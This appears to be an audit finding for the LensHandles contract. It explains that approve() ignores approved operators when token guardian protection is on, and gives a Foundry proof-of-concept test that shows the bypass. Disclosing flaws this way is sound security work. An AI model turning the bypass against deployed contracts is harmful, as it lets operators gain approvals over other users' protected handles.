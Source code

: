 As token guardian protection in `approve()` does not account for approved operators, although an owner has token guardian enabled, approved operators will still be able to set approvals for his tokens. 

### Proof of Concept

The following Foundry test demonstrates the example above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import 'forge-std/Test.sol';
import '../contracts/namespaces/LensHandles.sol';

contract TokenGuardian_POC is Test {
    LensHandles lensHandles;

    address ALICE;
    address BOB;
    uint256 tokenId;

    function setUp() public {
        // Setup LensHandles contract
        lensHandles = new LensHandles(address(this), address(0), 0);

        // Setup Alice and Bob addresses
        ALICE = makeAddr("Alice");
        BOB = makeAddr("Bob");

        // Mint "alice.lens" to Alice
        tokenId = lensHandles.mintHandle(ALICE, "alice");
    }
    
    function testCanApproveWhileTokenGuardianEnabled() public {
        // Alice disables tokenGuardian to set Bob as an approved operator
        vm.startPrank(ALICE);
        lensHandles.DANGER__disableTokenGuardian();
        lensHandles.setApprovalForAll(BOB, true);

        // Alice re-enables tokenGuardian
        lensHandles.enableTokenGuardian();
        vm.stopPrank();

        // Bob disables tokenGuardian for himself
        vm.startPrank(BOB);
        lensHandles.DANGER__disableTokenGuardian();

        // Alice still has tokenGuardian enabled
        assertEq(lensHandles.getTokenGuardianDisablingTimestamp(ALICE), 0);

        // However, Bob can still set approvals for Alice's handle
        lensHandles.approve(address(0x1337), tokenId);
        vm.stopPrank();
        assertEq(lensHandles.getApproved(tokenId), address(0x1337));
    }
}
```
